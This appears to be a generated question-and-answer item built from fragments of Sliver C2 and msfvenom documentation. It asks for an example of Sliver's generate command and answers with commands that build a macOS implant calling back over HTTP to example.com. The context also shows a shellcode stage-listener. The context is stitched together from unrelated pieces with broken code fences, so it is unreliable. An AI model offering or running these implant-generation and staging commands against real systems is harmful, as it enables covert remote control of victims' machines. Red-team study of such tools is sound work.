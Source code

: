 Context:```
Options:
    -p, --payload       <payload>    Payload to use. Specify a '-' or stdin to use custom payloads
        --payload-options            List the payload's standard options
    -l, --list          [type]       List a module type. Options are: payloads, encoders, nops, all
## Generate the Implant
#### Basic Example

```
sliver > generate --http example.com --os mac

[*] Generating new darwin/amd64 implant binary
[*] Build completed in 00:00:05
[*] Implant saved to /Users/moloch/Desktop/WORKING_HACIENDA
```
sliver > stage-listener --url http://192.168.122.1:1234 --profile win-shellcode --prepend-size
```

Either `msfconsole` or `msfvenom` can be used directly to generate stager shellcodes or binaries with the `custom` payload type:
```
 Question: Provide a complete example of using the generate command in Sliver to create a payload. The example should include common parameters and the expected output. Respond with just a few command line. 

 Your response: 
```
sliver > generate --http example.com --os mac
[*] Generating new darwin/amd64 implant binary
[*] Build completed in 00:00:05
[*] Implant saved to /Users/moloch/Desktop/WORKING_HACIENDA
```

